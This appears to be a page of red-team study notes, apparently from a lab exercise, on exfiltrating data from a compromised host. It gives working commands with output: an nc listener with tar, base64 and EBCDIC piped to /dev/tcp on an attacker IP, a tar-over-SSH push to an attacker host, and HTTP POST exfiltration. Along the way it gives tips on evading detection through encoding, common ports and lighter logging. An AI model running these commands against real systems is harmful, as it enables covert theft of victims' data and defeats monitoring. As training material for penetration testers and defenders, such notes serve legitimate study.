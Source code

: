 # Data Exfiltration

### Exfil using a TCP socket

* Good for when you know there are no network based security products&#x20;
* This is NOT recommending in a network that is well secured
* This is easy to detect because we are using anon standard protocols&#x20;

<figure><img src="../.gitbook/assets/9931b598f5757bbdfb74004a2a43fe16.png" alt=""><figcaption></figcaption></figure>

* This shows the two hosts communicating over port 1337&#x20;
* In the real world please pick a normal port like 443 or 80, 8080, 8443 etc, etc
* The first machine listens on 1337&#x20;
* The other machine connects to `1.2.3.4:1337`&#x20;
* The first machine establishes the connection&#x20;
* Finally you can now send and receive data&#x20;

#### Set up your listener on the attack machines&#x20;

```
nc -lvp 8080 > /tmp/task4-creds.data
Listening on [0.0.0.0] (family 0, port 8080)
```

* Now on the victim to exfil the data

```
thm@victim1:$ tar zcf - task4/ | base64 | dd conv=ebcdic > /dev/tcp/192.168.0.133/8080
0+1 records in
0+1 records out
260 bytes copied, 9.8717e-05 s, 2.6 MB/s
```

* Note that we used the Base64 and EBCDIC encoding to protect the data during the exfiltration. If someone inspects the traffic, it would be in a non-human readable format and wouldn't reveal the transmitted file type.

```
ls -l /tmp/
-rw-r--r-- 1 root root       240 Apr  8 11:37 task4-creds.data
```

* On the attack box, we need to convert the received data back to its original status. We will be using the dd tool to convert it back.&#x20;

```
dd conv=ascii if=task4-creds.data |base64 -d > task4-creds.tar
tar xvf task4-creds.tar
task4/ 
task4/creds.txt
```

### Exfiltration using SSH

* SSH protocol establishes a secure channel to interact and move data between the client and server, so all transmission data is encrypted over the network or the Internet.

<figure><img src="../.gitbook/assets/aa723bb0e2c39dfc936b135c4912d1cf.png" alt=""><figcaption></figcaption></figure>

* To transfer data over the SSH, we can use either the Secure Copy Protocol SCP or the SSH client.
* Lets assume `scp` is not on the target machine
* From the victim machine&#x20;
* `jump.example.com` is the attacker machine&#x20;

```
tar cf - task5/ | ssh user@jump.example.com "cd /tmp/; tar xpf -"
```

1. We used the tar command the same as the previous task to create an archive file of the task5 directory.
2. Then we passed the archived file over the ssh. SSH clients provide a way to execute a single command without having a full session.
3. We passed the command that must be executed in double quotations, "cd /tmp/; tar xpf. In this case, we change the directory and unarchive the passed file.

* This one line command will push directories or files from the victim machine
* This is a disaster for logging
* Each time you do this will log on the victim machine with the ip of your attacker machine
* Use with extreme caution!!!!

### HTTP POST Request

* Exfiltration data through the HTTP(s) protocol is one of the best options because it is challenging to detect. It is tough to distinguish between legitimate and malicious HTTP traffic.&#x20;
* We will use the POST HTTP method in the data exfiltration, and the reason is with the GET request, all parameters are registered into the log file.&#x20;
* While using POST request, it doesn't. The following are some of the POST method benefits:
* POST requests are never cached
* POST requests do not remain in the browser history
* POST requests cannot be bookmarked
* POST requests have no restrictions on data length

#### Example Apache Log

* Take a look at the different web logs
* The POST contains way less about our activities&#x20;

```
10.10.198.13 - - [22/Apr/2022:12:03:11 +0100] "GET /example.php?file=dGhtOnRyeWhhY2ttZQo= HTTP/1.1" 200 147 "-" "curl/7.68.0"
10.10.198.13 - - [22/Apr/2022:12:03:25 +0100] "POST /example.php HTTP/1.1" 200 147 "-" "curl/7.68.0"
```


